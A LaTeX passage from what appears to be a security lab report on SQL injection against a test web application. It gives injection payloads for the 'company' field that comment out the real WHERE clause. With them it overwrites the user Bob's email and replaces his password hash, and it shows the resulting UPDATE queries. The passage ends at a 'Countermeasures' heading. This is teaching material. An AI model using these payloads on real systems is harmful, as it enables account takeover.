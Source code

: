 \begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Email overwrite expansion},
label={lst:l4_t1p2_compatkres},
frame=single]
"UPDATE user SET name='bob',email='peter@evil.com',tel1='', tel2='',
company='' WHERE name = 'bob'#',
zip='',gender='',url='',adress='',adress2='',state='',
country='',tags='',locale='',rate='0' WHERE ID = 5"
\end{lstlisting}
\end{minipage}

\subsubsection{Part 2 - Change Bob's password}
Changing Bob's password is less straightforward as the password itself is stored as a hash. In order to give Bob's password a new value, we must first encode the new password using SHA-1. If the new password is "peter", then the hash would be "4b8373d016f277527198385ba72fda0feb5da015".

After obtaining the new password hash, we apply an injection similar to Section \ref{l4_t2p1}. Instead of putting the hash in the actual password fields, we embed the value pair in the injection. This is because in order for the redirection to work, the real search criteria (WHERE ID = 5) must be commented out. Doing so comes with a price of having to comment out all value pairs before the real search critera up to our new, fake search criteria (name = 'bob'). We therefore arrive at  and hence .

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Password overwrite injection},
label={lst:l4_t1p2_pwdatk},
frame=single]
$company = "', pass='4b8373d016f277527198385ba72fda0feb5da015'
               WHERE name = 'bob'#"
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Password overwrite expansion},
label={lst:l4_t1p2_pwdatkres},
frame=single]
"UPDATE user SET name='bob',email='peter@evil.com',tel1='',tel2='',
company='', pass='4b8373d016f277527198385ba72fda0feb5da015'
WHERE name = 'bob'#',
zip='',gender='',url='',adress='',adress2='',
state='',country='',tags='',locale='',rate='0' WHERE ID = 5"
\end{lstlisting}
\end{minipage}

\subsection{Task 3 - Countermeasures}